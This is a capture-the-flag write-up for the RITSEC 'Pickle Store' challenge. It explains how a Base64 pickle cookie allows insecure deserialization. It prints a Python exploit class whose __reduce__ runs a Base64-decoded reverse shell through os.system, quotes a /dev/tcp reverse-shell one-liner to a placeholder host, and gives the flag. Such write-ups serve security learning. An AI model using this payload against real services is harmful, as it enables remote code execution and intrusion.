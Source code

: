 # Pickle Store
> New pickles just dropped! Check out the store.

> https://pickles-web.challenges.ctf.ritsec.club/

## About the Challenge
We were given a website that has a functionality to order a pickle

![preview](images/preview.png)

## How to Solve?
If we see the request, there is a cookie called `order` and the value is Base64 encoded message. When I first saw the cookie, the first thing that comes to my mind was `Pickle Insecure Deserialization to RCE`

![request](images/request.png)

And then I tried to do some research about that vulnerability and I got this script to exploit that vulnerability

```python
import pickle
import base64
import os

class RCE:
    def __reduce__(self):
        cmd = ('echo "BASE64_REVERSE_SHELL" | base64 -d | bash')
        return os.system, (cmd,)

if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(base64.urlsafe_b64encode(pickled))
```

Why should I encode the command first using Base64 instead of directly using `/bin/sh -i >& /dev/tcp/IP/PORT 0>&1`? That's because I can't do a reverse shell if I'm using that command.

Run the script and then change the value of the cookie with the output of the script. And then to obtain the flag, try to read `/flag` file

![flag](images/flag.png)

```
RS{TH3_L345T_53CUR3_P1CKL3}
```